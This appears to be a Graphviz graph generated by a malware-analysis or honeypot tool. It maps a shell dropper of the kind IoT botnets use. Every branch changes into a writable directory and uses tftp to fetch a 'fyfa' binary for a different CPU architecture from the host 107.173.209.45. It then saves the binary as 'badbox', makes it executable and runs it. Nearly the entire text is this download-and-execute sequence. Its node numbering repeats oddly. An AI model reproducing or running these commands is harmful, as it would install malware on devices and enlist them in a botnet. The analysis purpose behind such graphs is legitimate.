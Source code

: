 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 14 [label="||,"];
14 [label="tftp -r fyfa.mips -g 107.173.209.45 "];
14 -> 16 [label=";,"];
16 [label="cat fyfa.mips badbox "];
16 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 34 [label="||,"];
34 [label="tftp -r fyfa.mpsl -g 107.173.209.45 "];
34 -> 36 [label=";,"];
36 [label="cat fyfa.mpsl badbox "];
36 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 54 [label="||,"];
54 [label="tftp -r fyfa.sh4 -g 107.173.209.45 "];
54 -> 56 [label=";,"];
56 [label="cat fyfa.sh4 badbox "];
56 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 74 [label="||,"];
74 [label="tftp -r fyfa.x86 -g 107.173.209.45 "];
74 -> 76 [label=";,"];
76 [label="cat fyfa.x86 badbox "];
76 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 94 [label="||,"];
94 [label="tftp -r fyfa.arm -g 107.173.209.45 "];
94 -> 96 [label=";,"];
96 [label="cat fyfa.arm badbox "];
96 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 114 [label="||,"];
114 [label="tftp -r fyfa.i686 -g 107.173.209.45 "];
114 -> 116 [label=";,"];
116 [label="cat fyfa.i686 badbox "];
116 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r fyfa.pcc -g 107.173.209.45 "];
214 -> 216 [label=";,"];
216 [label="cat fyfa.pcc badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 154 [label="||,"];
154 [label="tftp -r fyfa.i586 -g 107.173.209.45 "];
154 -> 156 [label=";,"];
156 [label="cat fyfa.i586 badbox "];
156 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 174 [label="||,"];
174 [label="tftp -r fyfa.m68k -g 107.173.209.45 "];
174 -> 176 [label=";,"];
176 [label="cat fyfa.m68k badbox "];
176 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 194 [label="||,"];
194 [label="tftp -r fyfa.spc -g 107.173.209.45 "];
194 -> 196 [label=";,"];
196 [label="cat fyfa.spc badbox "];
196 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
221 [label="./badbox "];
221 -> 204 [label=";,"];
204 [label="cd /tmp "];
204 -> 204
206 [label="cd /var/run "];
206 -> 208 [label="||,"];
208 [label="cd /mnt "];
208 -> 210 [label="||,"];
210 [label="cd /root "];
210 -> 212 [label="||,"];
212 [label="cd / "];
212 -> 214 [label="||,"];
214 [label="tftp -r fyfa.pcc -g 107.173.209.45 "];
214 -> 216 [label=";,"];
216 [label="cat fyfa.pcc badbox "];
216 -> 218 [label=";,"];
218 [label="badbox "];
218 -> 218
220 [label="chmod +x * "];
220 -> 221 [label=";,"];
}
